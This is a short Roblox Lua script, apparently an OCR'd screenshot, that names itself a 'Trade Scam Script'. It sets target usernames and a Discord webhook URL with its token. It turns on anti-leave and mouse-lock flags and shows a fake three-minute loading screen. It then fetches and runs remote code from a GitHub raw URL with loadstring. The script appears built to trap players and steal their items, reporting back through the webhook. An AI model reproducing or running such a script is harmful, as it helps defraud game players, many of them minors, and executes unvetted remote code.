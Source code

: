 serName = "seif12344944"

UserName2 = "seif12344944"

Webhook = "https://discord.com/api/webhooks/1107240649394237520/K-Iatm95vtZ2jLLwsogpzjR0GipmEXT6OVcaBdpLnMEaX9Yv7uKLFH-rupfC8YTpDBvC"

_G.LoadingScreen = true

_G.AntiLeave = true

_G.MouseLock = true 

_G.ScriptName = "Trade Scam Script"

_G.FirstText = "Script Preparing"

_G.SecondText = "Script Loading..."

_G.ThirdText = "Almost Done..."

_G.WaitingTime = 180 -- it's the time between 0% and 100% in secondes

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/R/main/Main.lua", true))()
